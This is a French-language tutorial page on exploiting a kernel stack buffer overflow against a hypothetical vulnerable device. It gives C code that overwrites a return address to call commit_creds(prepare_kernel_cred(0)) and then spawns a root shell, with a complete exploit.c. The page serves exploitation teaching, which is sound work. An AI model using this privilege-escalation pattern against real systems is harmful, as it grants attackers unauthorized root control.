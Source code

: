 # Buffer Overflow Basic

## Overview
Tout comme pour une exploitation de **BoF** en user-land, notre objectif va être d&#39;overwrite la return address de la fonction vulnérable pour prendre le contrôle du flow d&#39;exécution. 
On se place ici dans le cas où aucune protection n&#39;est présente au niveau du kernel. 
## Detail
Notre objectif lors de l&#39;exploitation d&#39;un buffer overflow en kernel-land est de réussir a exécuter du code user-land tout en profitant de l&#39;exécution de code kernel-land pour [élever nos privilèges](/MyLittlePwney/pwn/kernel/kernel-privesc).

Ainsi, un schéma d&#39;attaque classique nous donnerait :
1) Exploiter le buffer overflow.
2) Overwrite l&#39;adresse de retour de la fonction vulnérable par l&#39;adresse de la fonction *privesc()*.
	- *privesc()* passe les privilèges du process, lancé par notre binaire *exploit*, a root.
3) Maintenant qu&#39;on a des privilèges root, on peut lancer un *system(&#34;/bin/sh&#34;)*.
![task_struct](/MyLittlePwney/images/kernel_bof.png)
## Exploit
Pour implémenter cette attaque, on va se mettre dans le cas où on peut interagir avec une device, dont la propriété **write** fait appel à une fonction vulnérable à un buffer overflow. Ainsi, lorsque l&#39;on va *write()* plus de caractères qu&#39;attendu, on va overflow sur la stack kernel.

Pour exploiter cela, on va tout d&#39;abord devoir ouvrir la device pour interagir avec elle.
```c title:open_dev()
int global_fd;

void open_dev(){
  global_fd = open(&#34;/dev/vulnDevice&#34;, O_RDWR);
	if (global_fd &lt; 0){
		puts(&#34;[!] Failed to open device&#34;);
		exit(-1);
	} else {
      puts(&#34;[*] Opened device&#34;);
  }
}
```

Ensuite on va préparer notre fonction *privesc()* que l&#39;on va appeler une fois avoir pris le contrôle sur le flow d&#39;exécution côté kernel.

| Pour mieux comprendre le principe de l&#39;élévation de privilèges côté kernel, allez voir : [Kernel Privesc](/MyLittlePwney/pwn/kernel/kernel-privesc). |
| --- |

```c title:privesc()
unsigned long __attribute__((regparm(3))) (*commit_creds)(unsigned long cred);
unsigned long __attribute__((regparm(3))) (*prepare_kernel_cred)(unsigned long cred);

void privesc(){
  commit_creds = 0xc107...;
  prepare_kernel_cred = 0xc107...;
  commit_creds(prepare_kernel_cred(0));
}
```

Maintenant qu&#39;on a la fonction qui va nous permettre d&#39;élever nos privilèges, on va pouvoir overflow sur la stack kernel et rediriger le flow d&#39;exécution vers cette fonction.
```c title:overflow()
void overflow(){
  // Overlow at 64 bytes
  unsigned long long payload[17] = {0};
  payload[16] = (unsigned long)privesc;

  write(global_fd, payload, sizeof(payload));
}
```

Grâce à cet exploit, nous avons manipulé le kernel pour qu&#39;il passe le process spawn par *exploit* en tant que process root. Il ne nous reste plus qu&#39;à run un *system(&#34;/bin/sh&#34;)* pour obtenir un shell root.

En résumé, notre exploit final donne quelque chose comme :
```c title:exploit.c
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;fcntl.h&gt;

int global_fd;

unsigned long __attribute__((regparm(3))) (*commit_creds)(unsigned long cred);
unsigned long __attribute__((regparm(3))) (*prepare_kernel_cred)(unsigned long cred);

void open_dev(){
  global_fd = open(&#34;/dev/vulnDevice&#34;, O_RDWR);
	if (global_fd &lt; 0){
		puts(&#34;[!] Failed to open device&#34;);
		exit(-1);
	} else {
      puts(&#34;[*] Opened device&#34;);
  }
}

void privesc(){
  commit_creds = 0xc107...;
  prepare_kernel_cred = 0xc107...;
  commit_creds(prepare_kernel_cred(0));
}

void overflow(){
  unsigned long long payload[17] = {0};
  payload[16] = (unsigned long)privesc;
  write(global_fd, payload, sizeof(payload));
}

int main() {
  open_dev();
  overflow();
  system(&#34;/bin/sh&#34;);
  return 0;
}
```

---

> Author:   
> URL: https://0xeg0.github.io/MyLittlePwney/pwn/kernel/attacks/buffer-overflow-basic/  


